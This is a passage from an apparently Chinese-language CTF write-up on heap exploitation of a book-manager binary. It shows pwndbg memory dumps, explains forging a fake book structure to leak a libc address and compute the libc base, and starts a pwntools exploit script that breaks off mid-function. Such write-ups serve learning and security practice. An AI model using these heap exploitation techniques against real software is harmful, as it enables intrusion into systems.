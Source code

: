```
0x5567bf82e180:	0x0000000000000002	0x00005567bf82e160 ->name
0x5567bf82e190:	0x00007f18a4045010	0x0000000000021000
```

看我们的description的地址，放到了libc里了，ok，接下来就是show他的时候了，但是，怎么show这个地址，我们看我们第一本书的name指针0x00005567bf82e020存的是我们的name的内容，所以我们可以伪造的book放地值为0x5567bf82e190，这样就可以了

```
0x5567bf82e130:	0x0000000000000001	0x00005567bf82e020
0x5567bf82e140:	0x00005567bf82e060	0x00000000000000c8
0x5567bf82e150:	0x0000000000000000	0x0000000000000021
0x5567bf82e160:	0x0000414141414141	0x0000000000000000
0x5567bf82e170:	0x0000000000000000	0x0000000000000031
0x5567bf82e180:	0x0000000000000002	0x00005567bf82e160
0x5567bf82e190:	0x00007f18a4045010	0x0000000000021000
0x5567bf82e1a0:	0x0000000000000000	0x0000000000020e61

```

于是我们就可以把description做成这样

```
pwndbg> x/100xg 0x00005567bf82e060
0x5567bf82e060:	0x3131313131313131	0x3131313131313131
0x5567bf82e070:	0x3131313131313131	0x3131313131313131
0x5567bf82e080:	0x3131313131313131	0x3131313131313131
0x5567bf82e090:	0x3131313131313131	0x3131313131313131
0x5567bf82e0a0:	0x3131313131313131	0x3131313131313131
0x5567bf82e0b0:	0x3131313131313131	0x3131313131313131
0x5567bf82e0c0:	0x3131313131313131	0x3131313131313131
0x5567bf82e0d0:	0x3131313131313131	0x3131313131313131
0x5567bf82e0e0:	0x3131313131313131	0x3131313131313131
0x5567bf82e0f0:	0x3131313131313131	0x3131313131313131
0x5567bf82e100:	0x0000000000000001	0x00005567bf82e190
0x5567bf82e110:	0x00005567bf82e190	0x00000000000000c8

```

在第0x5567bf82e100处，伪造，并且把地址写了进去，然后，打印出来libc距离他的地址的偏移手动算一下，然后就可以得到libc的真实的基址了

```python
  1 #coding:utf8
  2 from pwn import *
  3 
  4 #context.log_level = 'debug'
  5 def create(size,content,dsize,dcontent):
  6     p.sendline("1")
  7     log.info(p.recvuntil(":"))
  8     p.sendline(str(size))
  9     log.info(p.recvuntil(":"))
 10     p.sendline(content)
 11     log.info(p.recvuntil(":"))
 12     p.sendline(str(dsize))
 13     log.info(p.recvuntil(":"))
 14     p.sendline(dcontent)
 15     log.info(p.recvuntil(">"))
 16 
 17 def delete(index):
 18     p.sendline("2")
 19     log.info(p.recvuntil(":"))
 20     p.sendline(index)
 21     log.info(p.recvuntil(">"))
 22 
 23 
 24 def edit(index,content):
 25     p.sendline("3")
 26     log.info(p.recvuntil(":"))
```